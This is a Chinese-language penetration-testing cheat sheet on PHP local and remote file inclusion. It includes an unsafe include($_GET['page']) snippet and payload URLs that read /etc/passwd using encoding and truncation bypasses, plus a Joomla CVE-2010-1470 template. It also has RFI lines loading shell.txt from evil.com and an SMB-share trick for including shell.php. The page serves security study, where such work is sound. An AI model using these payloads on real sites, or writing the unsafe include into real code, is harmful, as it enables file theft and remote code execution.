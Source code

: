 # 文件包含漏洞

> 文件包含漏洞（File Inclusion Vulnerability）是一种常见于Web应用的安全漏洞，特别在PHP开发的应用程序中较为普遍。当应用程序在包含文件时未对用户输入进行充分验证和过滤，攻击者可能利用此漏洞包含恶意文件，导致代码执行、数据泄露或网站篡改等安全风险。

## 目录

- [工具](#工具)
- [本地文件包含(LFI)](#本地文件包含lfi)
    - [空字节截断](#空字节截断)
    - [双重编码](#双重编码)
    - [UTF-8编码](#utf-8编码)
    - [路径截断](#路径截断)
    - [过滤器绕过](#过滤器绕过)
- [远程文件包含(RFI)](#远程文件包含rfi)
    - [空字节截断](#空字节截断-1)
    - [双重编码](#双重编码-1)
    - [绕过allow_url_include限制](#绕过allow_url_include限制)
- [实验环境](#实验环境)
- [参考资料](#参考资料)

## 工具

- [P0cL4bs/Kadimus](https://github.com/P0cL4bs/Kadimus) (2020年10月7日存档) - 用于检测和利用LFI漏洞的工具
- [D35m0nd142/LFISuite](https://github.com/D35m0nd142/LFISuite) - 全自动LFI利用工具（含反向Shell）和扫描器
- [kurobeats/fimap](https://github.com/kurobeats/fimap) - 用于发现、审计和利用本地及远程文件包含漏洞的Python工具
- [lightos/Panoptic](https://github.com/lightos/Panoptic) - 通过路径遍历漏洞自动搜索和检索常见日志和配置文件内容的开源渗透测试工具
- [hansmach1ne/LFImap](https://github.com/hansmach1ne/LFImap) - 本地文件包含发现与利用工具

## 本地文件包含(LFI)

**文件包含漏洞** 应与 **目录遍历** 区分开。目录遍历漏洞通常利用目标应用中的"读取"机制来访问文件，而文件包含漏洞则可能导致任意代码执行。

以下是一个基于用户输入包含文件的PHP脚本示例。如果未进行适当的输入过滤，攻击者可能操纵`page`参数来包含本地或远程文件，导致未授权访问或代码执行。

```php
<?php
$file = $_GET['page'];
include($file);
?>
```

以下示例展示了如何包含`/etc/passwd`文件，更多有趣的文件路径请参考`目录与路径遍历`章节。

```
http://example.com/index.php?page=../../../etc/passwd
```

### 空字节截断

:warning: 在PHP 5.3.4以下版本中，可以使用空字节(`%00`)截断字符串。

```
http://example.com/index.php?page=../../../etc/passwd%00
```

**示例**: Joomla! 组件 Web TV 1.0 - CVE-2010-1470

```
{{BaseURL}}/index.php?option=com_webtv&controller=../../../../../../../../../../etc/passwd%00
```

### 双重编码

```
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

### UTF-8编码

```
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
```

### 路径截断

在大多数PHP安装中，超过4096字节的文件名会被截断，因此任何多余的字符都会被丢弃。

```
http://example.com/index.php?page=../../../etc/passwd............[添加更多]
http://example.com/index.php?page=../../../etc/passwd\.\.\.\.\.\.[添加更多]
http://example.com/index.php?page=../../../etc/passwd/./././././.[添加更多] 
http://example.com/index.php?page=../../../[添加更多]../../../../etc/passwd
```

### 过滤器绕过

```
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/\%5C../\%5C../\%5C../\%5C../\%5C../\%5C../\%5C../\%5C../\%5C../\%5C../\%5C../etc/passwd
```

## 远程文件包含(RFI)

> 远程文件包含(RFI)是一种漏洞类型，当应用程序在包含文件时未对用户输入进行适当验证或过滤，导致可以包含远程文件。

由于PHP 5之后默认禁用了`allow_url_include`，远程文件包含在默认配置下不再有效。

```ini
allow_url_include = On
```

大多数LFI部分的过滤器绕过技术都可以用于RFI。

```
http://example.com/index.php?page=http://evil.com/shell.txt
```

### 空字节

```
http://example.com/index.php?page=http://evil.com/shell.txt%00
```

### 双重编码

```
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```

### 绕过allow_url_include限制

当`allow_url_include`和`allow_url_fopen`都设置为`Off`时，在Windows系统上仍然可以使用`smb`协议包含远程文件。

1. 创建一个对所有人开放的共享
2. 在文件中写入PHP代码：`shell.php`
3. 包含它：`http://example.com/index.php?page=\\10.0.0.1\share\shell.php`

## 实验环境

- [Root Me - 本地文件包含](https://www.root-me.org/en/Challenges/Web-Server/Local-File-Inclusion)
- [Root Me - 本地文件包含 - 双重编码](https://www.root-me.org/en/Challenges/Web-Server/Local-File-Inclusion-Double-encoding)
- [Root Me - 远程文件包含](https://www.root-me.org/en/Challenges/Web-Server/Remote-File-Inclusion)
- [Root Me - PHP - 过滤器](https://www.root-me.org/en/Challenges/Web-Server/PHP-Filters)

## 参考资料

- [CVV #1: 本地文件包含 - SI9INT - 2018年6月20日](https://medium.com/bugbountywriteup/cvv-1-local-file-inclusion-ebc48e0e479a)
- [利用PHP应用程序中的远程文件包含(RFI)并绕过远程URL包含限制 - Mannu Linux - 2019年5月12日](http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html)
- [PHP在什么情况下容易受到攻击？ - 2015年4月13日 - Andreas Venieris](http://0x191unauthorized.blogspot.fr/2015/04/is-php-vulnerable-and-under-what.html)
- [LFI 备忘单 - @Arr0way - 2016年4月24日](https://highon.coffee/blog/lfi-cheat-sheet/)
- [测试本地文件包含 - OWASP - 2017年6月25日](https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion)
- [将LFI转变为RFI - Grayson Christopher - 2017年8月14日](https://web.archive.org/web/20170815004721/https://l.avala.mp/?p=241)

---


